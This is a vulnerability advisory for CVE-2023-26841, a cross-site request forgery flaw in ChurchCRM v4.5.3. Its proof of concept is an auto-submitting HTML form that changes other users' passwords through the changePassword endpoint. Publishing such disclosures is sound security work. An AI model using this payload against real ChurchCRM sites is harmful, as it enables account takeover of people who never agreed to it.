

# CVE-2023-26841 - Cross-Site Request Forgery (CSRF) via changePassword

|                 |                                                                                      |
| --------------- | --------------- |
| Researchers     | 10splayaSec                                                               |
| Severity        | 6.9 (CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:L/I:H/A:N)                                   |
| Published       | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26841         |
| Software Link   | https://github.com/ChurchCRM/CRM             |

## Description

A cross-site request forgery (CSRF) vulnerability in ChurchCRM v4.5.3 allows attackers to change any user's password except for the user that is currently logged in.

## Proof of Concept

1. Using the HTML below, we can change any user’s passwords on the site except for the user that is currently logged in doing the action.

```html
<html>
	<body>
		<form method="POST" action="http://testing.10splaya.com/churchcrm/v2/user/<ID>/changePassword">
			<input type="hidden" name="NewPassword1" value="<PASSWORD>"/>
			<input type="hidden" name="NewPassword2" value="<SAME PASSWORD>"/>
			<input type="hidden" name="Submit" value="Save"/>
			<input type="submit" value="Submit">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
<html>
```

